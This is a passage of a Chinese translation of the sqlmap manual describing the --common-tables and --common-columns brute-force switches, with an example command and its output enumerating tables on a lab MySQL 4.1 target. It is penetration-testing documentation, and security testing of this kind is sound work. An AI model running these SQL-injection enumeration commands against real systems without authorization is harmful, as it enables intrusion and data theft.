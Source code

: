 ## 暴力破解

以下开关可用于暴力破解检查。

### 暴力破解表名

开关：`--common-tables`

在某些场景下，开关 `--tables` 并不能用于获取数据库中表的名称。这样的场景通常会在如下情况下发生：

* DBMS 是 **< 5.0** 版本的 MySQL，它们不具备 `information_schema`。
* DBMS 是微软的 Access 数据库，并且其中的系统表 `MSysObjects` 默认设置不可读。
* 当前会话用户对 DBMS 中存储数据表定义的系统表没有读权限。

如果出现前面两个场景中的任意一个，并且你开启了 `--tables` 开关，sqlmap 则会提示你是否使用暴力破解技术。因而，就算出现上面两个场景之一，只要你开启了 `--common-tables`，sqlmap 仍然可以识别出部分系统数据表。sqlmap 会尝试对系统表进行暴力破解，试图找出 DBMS 中存在的常见数据表。

常见的数据表名列表存储在 `txt/common-tables.txt`，支持用户进行任意修改。

针对 MySQL 4.1 目标的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --commo\
n-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL < 5.0.0
banner:    '4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/tx
t/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```

### 暴力破解列名

开关：`--common-columns`

对于任意数据表，可能存在开启了开关 `--columns` 之后仍不能够获取数据库表的列名的情况。这样的场景通常会在如下情况下发生：

* DBMS 是 **< 5.0** 版本的 MySQL，它们不具备 `information_schema`。
* DBMS 是微软的 Access 数据库，相对应的列名信息在数据库系统表中不存在。
* 当前会话用户对 DBMS 中存储数据表定义的系统表没有读权限。

如果出现前面两个场景中的任意一个，并且你开启了 `--columns` 开关，sqlmap 则会提示你是否使用暴力破解技术。因而，就算出现上面两个场景之一，只要你开启了 `--common-columns`，sqlmap 仍然可以识别出部分系统数据表。sqlmap 会尝试对系统表进行暴力破解，试图找出 DBMS 中存在的常见数据表列名。

常见的数据表名列表存储在 `txt/common-columns.txt`，支持用户进行任意修改。